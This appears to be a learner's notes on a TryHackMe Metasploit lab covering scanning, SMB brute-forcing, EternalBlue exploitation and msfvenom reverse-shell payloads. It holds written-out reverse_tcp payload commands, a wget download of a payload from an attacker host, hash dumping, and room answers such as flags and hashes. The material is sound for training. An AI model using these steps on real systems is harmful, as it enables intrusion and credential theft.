Introduction
- in this room we will learn how to use Metasploit for vulnerability scanning and exploitation
- we will also cover how the db feature makes it easier to manage pen testing engagements with a broader scope
- finally we will look at generating payloads with msfvenom and how to start a Meterpreter session on most target platforms

- More specifically the topics we will cover are:

- How to scan target systems using Metasploit
- How to use the Metasploit database feature
- How to use Metasploit to conduct a vulnerability scan
- How to use Metasploit to exploit vulnerable services on target systems
- How msfvenom can be used to create payloads and obtain a Meterpreter session on the target system

- please note that for all questions that require using a wordlist (e.g. brute-force attacks) we will be using the wordlist on the AttackBox found at the following path:
- /usr/share/wordlists/MetasploitRoom/MetasploitWordList.txt

Scanning

Port Scanning
- Metasploit has a number of modules to scan open ports on the target system and network
- you can list potential port scanning modules available using the search portscan command



- port scannning modules will require you to set a few options



- CONCURRENCY: number of targets to be scanned simultaneously
- PORTS: port range to be scanned. Please note that 1-1000 here will not be the same as using nmap with the default config. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers 1 to 10000
- RHOSTS: target or target network to be scanned
- THREADS: number of threads that will be used simultaneously. More thread will result in faster scans

- you can directly perform nmap scans from the msfconsole prompt as shown below faster:

- as for information gathering, if your engagement requires a speedier approach to port scanning...
- Metasploit may not be your first choice
- However a number of modules make Metasploit a useful tool for the scanning phase

UDP Service Identification
- the scanner/discovery/udp_sweep module allows you to quickly identify services running over UDP (User Datagram Protocol)
- as you can see below, this module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS



SMB Scans
- Metasploit offers several useful auxiliary modules that allow us to scan specific services
- below is an example for the SMB
- especially useful in a corporate network would be smb_enumshares and smb_version but please spend some time to identify scanners that the Metasploit version on your system offers



- when performing service scans, it would be important not to omit more "exotic" services such as NetBIOS
- NetBIOS (Network Basic Input Output System) similar to SMB allows computers to communicate over the network to share files or send files to printers
- the NetBIOS name of the target system can give you an idea about its role and even importance (e.g. CORP-DC, DEVOPS, SALES etc.)
- you may also run across some shared files and folders that could be accessed either without a password or protected with a simple password (e.g. admin, administrator, root, toor etc)

- remember Metasploit has many modules that can help you have a better understanding of the target system and possibly help you find vulnerabilities
- its always worth performing a quick search to see if there are any modules that could be helpful based on your target system

How many ports are open on the target system?
- 5

working out:
- search portscan
- no 5 was a TCP Port Scanner (auxiliary/scanner/portscan/tcp)
- use 5
- show options
- set RHOSTS 
- run



Using the relevant scanner, what NetBIOS name can you see?
- ACME IT SUPPORT

working out:
- search NetBIOS
- no 2 was a NETBIOS Information Discovery (auxiliary/scanner/netbios/nbname)
- use 2 
- show options
- set RHOSTS
- run

What is running on port 8000?
- webfs/1.21

working out:
- (used a hint as was unsure said looking for http_version module)
- search http_version
- option 0 was the auxiliary/scanner/http/http_version
- use 0
- show options
- set RPORT 8000
- set RHOSTS
- run



What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.
- leo1234

working out:
- (used a hint as was unsure said looking for the smb_login module)
- search smb_login
- option 0 was auxiliary/scanner/smb/smb_login
- use 0
- show options
- set SMBUser to penny
- set PASS_FILE to /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
- set RHOSTS
- run



The Metasploit Database
- while it is not required when interacting with a single target on TryHackMe, an actual pen testing engagement will likely have several targets

- Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values

** please note ** the following steps have already been taken in the TryHackMe AttackBox so you will only need to do this if you are using Kali or have installed Metasploit yourself

- you will first need to start the PostgreSQL database, which Metasploit will use with the following command:
- systemctl start postgresql

- then you will need to initialise the Metasploit Database using the msfdb init command
- however trying to run msfdb init as root will give the following error message:
- "please run msfdb as a non-root user"
- this can be solved by running it as the postgres account using sudo -u postfres msfdb init

- the terminal below shows the example output
- as mentioned the steps below have already been performed on the AttackBox
- however if you are interested in repeating them
- you will need to delete the existing db first using sudo -u postgres msfdb delete



- you can now launch msfconsole and check the database using the db_status command

- the database feature will alow you to create workspaces to isolate different projects
- when first launched you should be in the default workspace
- you can list avaialable workspaces using the workspace command



- you can add a workspace using the -a param or delete a workspace using the -d param, respectively
- the scrnshot below shows that a new workspace named "tryhackme" was created

- you will also notice that the new db name is printed in red starting with a * symbol
- you can use the workspace command to navigate between workspaces simply by typing workspace followed by the desired workspace name



- you can use the workspace -h command to list available options for the workspace command



- different from regular Metasploit usage, once Metasploit is launched with a db the help command, you will show the Database Backends Commands menu

- if you run a nmap scan using the db_nmap shown below all results will be saved to the database



- you can now reach information relevant to the hosts and services running on the target system with the hosts and services commands, respectively



- the hosts -h and services -h commands can help you become more familiar with available options
- once the host information is stored in the database, you can use the hosts -R command to add this value to the RHOSTS parameter

Example Workflow

1. We will use the vulnerability scanning module that finds potential MS17-010 vulnerabilities with the auxiliary/scanner/smb/smb_ms17_010 command

2. We set the RHOSTS value using hosts -R

3. We have typed show options to check if all values were assigned correctly (in this example 10.10.138.32 is the IP addr we have scanned earlier using the db_nmap command)

4. Once all params are set, we launch the exploit using the run or exploit command



- if there is more than one host saved to the database all IP addresses will be used when the hosts -R command is used
- in a typical pen testing enagement we could have the following scenario:

- finding available hosts using the db_nmap command
- scanning these for further vulnerabilities or open ports (using a port scanning module)

- the services command used with the -S parameter will allow you to search for specific services in the environment

- you may want to look for low-hanging fruits such as:

- HTTP: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE)
- FTP: Could allow anonymous login and provide access to interesting files
- SMB: Could be vulnerable to SMB exploits like MS17-010
- SSH: Could have default or easy to guess credentials
- RDP: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used

- as you can see Metasploit has many features to aid in engagements such as the ability to compartmentalise your engagements into workspaces
- analyse your results at a high level, and quickly import and explore data

Vulnerability Scanning
- Metasploit allows you to quickly identify some critical vulnerabilities that could be considered as "low-hanging fruit" 
- the term "low-hanging fruit" usuaully refers to easily identifiable and exploitable vulnerabilities that could potentially allow you to gain a foothold on a system and, in some cases, gain high-level privilege access such as root or administrator

- finding vulnerabilities using Metasploit will rely heavily on your ability to scan and fingerprint the target
- the better you are at these stages, the more options Metasploit may provide you
- for example if you identify a VNC service running on the target...
- you may use the search function on Metasploit to list useful modules
- the results will contain payload and post modules
- at this stage these results are not very useful as we have not discovered a potential exploit to use just yet
- however in the case of VNC there are several scanner modules that we can use



- you can use the info command for any module to have a better understanding of its use and purpose



- as you can see the vnc_login module can help us find login details for the VNC service

Who wrote the module that allows us to check SMTP servers for open relay?
- Campbell Murray



Exploitation
- as the name suggests Metasploit is an exploitation framework
- exploits are the most populated module category

- you can search exploits using the search command, obtain more info about the exploit using the info command, and launch the exploit using exploit
- while the process itself is simple, remember that a successful outcome depends on a thorough understanding of services running on the target system

- most of the exploits will have a preset default payload
- however you can always use the sear command to list other commands you can use with that specific exploit

- once you have decided on the payload
- you can use the set payload command to make your choice



- note that choosing a working payload could become trial and error process due to environmental or OS restrictions such as firewall rules, anti-virus, file writing or the program performing the payload execution isnt available (e.g. payload/python/shell_reverse_tcp)

- some payloads will open new params that you may need to set
- running the show options command once more can show these
- as you can see in the above example a reverse payload will at least require you to set the LHOST option

- once a session is opened, you can background it using CTRL+Z or abort it using CTRL+C
- backgrounding a session will be useful when working on more than one target simultaneously or on the same target with a different exploit and/or shell



Working with sessions
- the sessions command will list all active sessions
- the sessions command supports a number of options that will help you manage sessions better

- you can interact with any existing session using the sessions -i command followed by the session ID

Exploit one of the critical vulnerabilities on the target VM

working out:
- nmap scan of the target machine to see what ports are open
- we see port 445 (SMB) is open which means windows file sharing is active
- port 445 is relatively a high value because it runs with system or admin privileges
- it has a history of critical vulns like eternal blue
- it can provide RCE

- to get more inforamtion of the versions we can use smb_version 
- smb_version gives us the OS fingerprint
- running on an older windows version - windows 7
- we can now check for "low-hanging fruit" i.e. eternal blue 



- search for eternalblue
- use 0 exploit/windows/smb/ms17_010_eternalblue
- show options
- set RHOSTS
- LHOST and LPORT already set for us
- exploit
- we can see that the exploit worked and we have a session
- we can background the session with CTRL+Z then do sessions comamnd to see our open session





What is the content of the flag.txt file?
- THM-5455554845

working out:
- search -h (help options for search)
- search -f flag.txt
- cd into directory 
- `cd c:\\Users\\Jon\\Documents`
- cat flag.txt



What is the NTLM hash of the password of the user "pirate"?
- 8ce9a3ebd1647fcc5e04025019f4b875

Msfvenom
- msfvenom which replaced msfpayload and msfencode allows you to generate payloads

- msfvenom will allow you to access all payloads available in the Metasploit framework
- msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf etc)
- and for many different target systems (Apple, Windows, Android, Linux etc)



Output Formats
- you can either generate stand-alone payloads (e.g. a windows executable for Meterpreter)
- or get a usuable raw format (e.g. python)
- the msfvenon --list formats command can be used to list supported output formats

Encoders
- contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system
- as the name suggests they encode the payload
- while it can be effective against some antivirus software...
- using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem
- the example below shows the usage of encoding (with the -e parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was raw)

Handlers
- similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload
- when using an exploit module this part is automatically handled by the exploit module
- you will remember how the payload options title appeared when setting a reverse shell
- the term commonly used to receive a connection from a target is 'catching a shell'
- reverse shells or Meterpreter callbacks generated in your MSFvenom payload can be easily caught using a handler

- the following scenario may be familiar
- we will exploit the file upload vulnerability in DVWA (Damn Vulnerable Web Application)
- for the exercises in this task, you will need to replicate a similar scenario on another target system
- DVWA was used here for illustration purposes
- the exploit steps are

1. Generate the PHP shell using MSFvenom

2. Start the Metasploit handler

3. Execute the PHP shell

- MSFvenom will require a payload, the local machine IP address, and the local port to which the payload will connect
- seen below, 10.0.2.19 is the IP addr of the AttackBox used in the attack and local port 7777 was chosen



** please note ** the output PHP file will miss the starting PHP tag commented and the end tag (?>) as seen below

- the reverse_shell.php file should be edited to convert it into a working PHP file
- below: comments removed from the beginning of the file

- below: end tag added

- we will use multi handler to receive the incoming connection
- the module can be used with the use exploit/multi/hanlder command

- to use the module we will need to set the payload value (php/reverse_php in this case), the LHOST and LPORT values



- once everything is set we will run the handler and wait for the incoming connection



- when the reverse shell is triggered, the connection will be received by multi/hanlder and provide us with a shell

- if the payload was set as Meterpreter (e.g. in a windows executable format) mutli/handler would than provide us with a Meterpreter shell

Other Payloads
- based on the target systems config (operating system, install webserver, installed interpreter etc) msfvenom can be used to create payloads in almost all formats
- below are a few examples you will often use:

- in all these examples, LHOST will be the IP addr of your attacking machine and LPORT will be the port on which your handler will listen

Linux Executable and Linkable Format (elf)
- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=XXXX -f elf > rev_shell.elf
- the .elf format is comparable to the .exe format in Windows
- these are executable files for Linux
- however you may still need to make sure they have executable permissions on the target machine
- for example once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions
- once done you can run this file by typing ./shell.elf on the target machine line

Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=XXXX -f exe > rev_shell.exe

PHP
msfvenom -p php/meterpreter/meterpreter_reverse_tcp LHOST=10.10.x.x LPORT=XXXX -f raw > rev_shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=XXXX -f asp > rev_shell.asp

Python
msfvenom -p cmd/unix/reverse_python LHOST=10.10.x.x LPORT=XXXX -f raw > rev_shell.py

- all of the examples above are reverse payloads
- this means you will need to have the exploit/multi/handler module listening on your attacking machine to work as a handler
- you will need to set up the handler accordingly with the payload, LHOST and LPORT parameters
- these values will be the same you have used when creating the msfvenom payload

Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

working out:
- ssh into the target machine with user murphy
- get a root shell

Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).

working out: 
- LHOST is the IP addr of our attacking machine
- LPORT is the port on which the handler will listen on
- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.80.121.224 LPORT=4444 -f elf > rev_shell.elf



Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).

working out: 
- start a python web server on attacking machine
- python3 -m http.server 9000



- on the target machine use wget http://10.80.121.224:9000/rev_shell.elf



Get a meterpreter session on the target machine.

working out:
- on target machine first do permissions for execution
- chmod +x rev_shell.elf
- on the attacker machine start up msfconsole
- we need to create a handler
- use exploit/multi/hanlder
- we need to set the correct payload
- set payload linux/x86/meterpreter/reverse_tcp
- set the lhost to the IP addr of the attacking machine
- set the lport to the handler listening port 444
- show options to double check
- run 

- run the elf on the target machine
- ./rev_shell.elf



- on the attacking machine we can see we now have a succsessful meterpreter session



Use a post exploitation module to dump hashes of other users on the system.

What is the other user's password hash?
- $6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0

working out: 
- in the output in the above scrnshot we can see the other user claire with the password hash next to it

Summary
- you should now have a better understanding of how Metasploit can help you identify potential vulnerabilities on target systems and exploit these vulnerabilities

- you have also seen how the database feature can help you with pen testing engagements where you have multiple potential targets
- finally you should have gained some experience with msfvenom and the creation of stand-alone Meterpreter payloads
- this is especially helpful in situations where you can upload a file to the target system or have the ability to download files to the target system
- Meterpreter is a powerful tool that offers a lot of easy to use features during the post-exploitation phase